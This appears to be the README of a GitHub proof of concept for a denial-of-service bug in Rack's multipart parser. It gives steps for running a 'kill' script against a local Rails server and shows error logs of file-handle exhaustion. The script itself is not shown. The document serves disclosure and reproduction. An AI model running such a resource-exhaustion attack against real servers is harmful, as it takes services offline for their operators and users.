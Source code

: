 rack_downer_poc
===============

The kill.rb script demonstrates the possible denial of service bug that exists in Rack.

To reproduce on rails:

0. to make your life easier, set your filehandle limit artificially low for this
1. ```cd railsapp```
2. ```bundle exec rails server```
3. ```./kill http://localhost:3000```
4. browse to http://localhost:3000

at step 3 you will see something like:

```
[2014-05-16 14:13:36] ERROR Errno::EMFILE: Too many open files - /var/folders/xy/1t835w8x53x25n_fj3601br80000gn/T/RackMultipart20140516-95323-e07spe
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/2.0.0/tempfile.rb:146:in `initialize'
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/2.0.0/tempfile.rb:146:in `open'
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/2.0.0/tempfile.rb:146:in `block in initialize'
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/2.0.0/tmpdir.rb:142:in `create'
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/2.0.0/tempfile.rb:136:in `initialize'
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/gems/2.0.0/gems/rack-1.5.2/lib/rack/multipart/parser.rb:104:in `new'
 ```
 
 at step 4 you will see something like:
 
 ```
[2014-05-16 14:19:45] ERROR LoadError: cannot load such file -- action_controller/base
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/gems/2.0.0/gems/actionpack-4.0.5/lib/action_dispatch/middleware/static.rb:34:in `ext'
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/gems/2.0.0/gems/actionpack-4.0.5/lib/action_dispatch/middleware/static.rb:18:in `match?'
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/gems/2.0.0/gems/actionpack-4.0.5/lib/action_dispatch/middleware/static.rb:58:in `call'
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/gems/2.0.0/gems/rack-1.5.2/lib/rack/sendfile.rb:112:in `call'
        /opt/boxen/rbenv/versions/2.0.0-p247/lib/ruby/gems/2.0.0/gems/railties-4.0.5/lib/rails/engine.rb:511:in `call'
```
